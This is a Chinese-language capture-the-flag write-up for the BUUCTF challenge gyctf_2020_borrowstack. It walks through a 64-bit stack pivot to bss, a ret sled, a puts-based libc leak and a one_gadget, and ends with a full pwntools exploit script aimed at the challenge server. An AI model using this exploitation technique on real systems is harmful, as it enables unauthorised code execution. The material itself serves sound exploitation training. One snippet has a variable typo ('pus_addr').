 ### 64 位栈迁移 ret 滑梯

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67df8ad888c538a9b5c4b96a.png)

反编译只够溢出 0x10，第二个 read 放到了 bss 段

![](https://pic1.imgdb.cn/item/67df8b0588c538a9b5c4b9ce.png)

首先利用 pit 表中的 puts 函数泄露 libc，得先找 `pop rdi` 指令

![](https://pic1.imgdb.cn/item/67df8bcc88c538a9b5c4bc0b.png)

其次栈迁移需要 leave 指令

![](https://pic1.imgdb.cn/item/67df937888c538a9b5c4cc5d.png)

先构造 payload 迁移栈到 bss 段

```python
r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
```

第一次溢出

![](https://pic1.imgdb.cn/item/67df9ce788c538a9b5c4e3cb.png)

**需要注意不能将栈迁移到变量 bank 的开头，因为后面还需要调用 puts 等函数，往上可能会覆盖某些重要数据，因此迁移的地址应该尽量靠后**

bank 的地址距离 got 表很近，只隔着 0x30 的距离，而调用 puts 很吃栈空间，因此我们在做栈迁移的时候要把地址相对的抬高些

![](https://pic1.imgdb.cn/item/67dfa15888c538a9b5c4ef36.png)

再找找 ret 指令，相当于

```c
pop eip	# 给 eip 赋值
```

![](https://pic1.imgdb.cn/item/67df943488c538a9b5c4cdec.png)

之后再在 bss 段中构造泄露 libc 的 payload

**（只要 p64(ret) * num 中 28 >= num >= 20 即可）**

```
r.recvuntil('now!')

payload = p64(ret) * 21 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
```

之后就是 libc 基址了

```
libc = LibcSearcher('puts', pus_addr)
libc_base = pus_addr - libc.dump('puts')
```

但是这题不能 ROP，只能 one_gadget（可能是空间不够）

![](https://pic1.imgdb.cn/item/67dfa58288c538a9b5c4f9d4.png)

完整 payload

```python
from pwn import *
from LibcSearcher import *

r = remote('node5.buuoj.cn',26424)
#r = process('./gyctf_2020_borrowstack')

elf = ELF('./gyctf_2020_borrowstack')
bank_addr = 0x0601080
leave = 0x400699
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x400703
main = 0x0400626
ret = 0x4004c9

r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
r.recvuntil('now!')

payload = p64(ret) * 28 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')

one_gadget = libc_base + 0x4526a

payload = b'a' * (0x60 + 8) + p64(one_gadget)

r.send(payload)
r.interactive()
```

